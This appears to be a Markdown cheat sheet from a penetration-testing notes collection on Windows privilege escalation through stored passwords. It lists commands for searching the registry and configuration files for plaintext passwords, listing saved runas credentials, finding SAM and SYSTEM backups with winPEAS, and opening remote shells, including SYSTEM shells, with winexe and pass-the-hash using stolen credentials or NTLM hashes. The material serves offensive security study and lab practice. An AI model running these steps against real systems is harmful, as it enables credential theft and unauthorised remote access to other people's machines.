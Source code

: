 # Passwords

## Registry

Some programs stores passwords in plaintext in the registry.

Search manually:

```bash
reg query HLKM /f password /t REG_SZ /s
reg query HLCU /f password /t REG_SZ /s
```

Search with winPEAS:

```bash
.\winpeas.exe quiet filesinfo userinfo
```

Found some creds? Spawn a shell with winexe or psexec from Kali:

```bash
winexe -U '$user%$password' //$IPADDRESS cmd.exe

#If the user is and Admin we can get a shell as system:
winexe -U '$user%$password' --system //$IPADDRESS cmd.exe
```

_____

## Saved Creds

Windows has a runas command which allows users to run commands with the privileges of other users. If this credentials are saved we don't need to know them and we can use to execute a binary in the context of that user.

Check for saved creds:

```bash
.\winpeas.exe quiet cmd windowscreds
```

If the output shows that there is a saved password (Currently Stored Credentials) we can run runas command as that user.

Check again with:

```bash
cmdkey /list
```

Then run:

```bash
runas /savecred /user:$user C:\XX\xx.exe
```

_____

## Configuration files

There might be some configuration files in the system with credentials inside (example: unatted.xml).

Search for configuration files:

```bash
#Current directory for files with string "pass"
dir /s *pass* == *.config

#Recursively search for the contents of files in the current directory that contain "password":
findstr /si password *.xml *.ini *.txt
```

Search with winpeas:

```bash
.\winpeas.exe quiet cmd searchfast filesinfo
```
_____

## SAM & SYSTEM 

Is there a backup of the SAM & SYSTEM files (C:\Windows\Repair) or (C\Windows\System32\config\RegBack)?

Found any hashes? Spawn a shell:

```bash
pth-winexe -U '$username%LM:NTLM' //$IPADDRESS cmd.exe
```
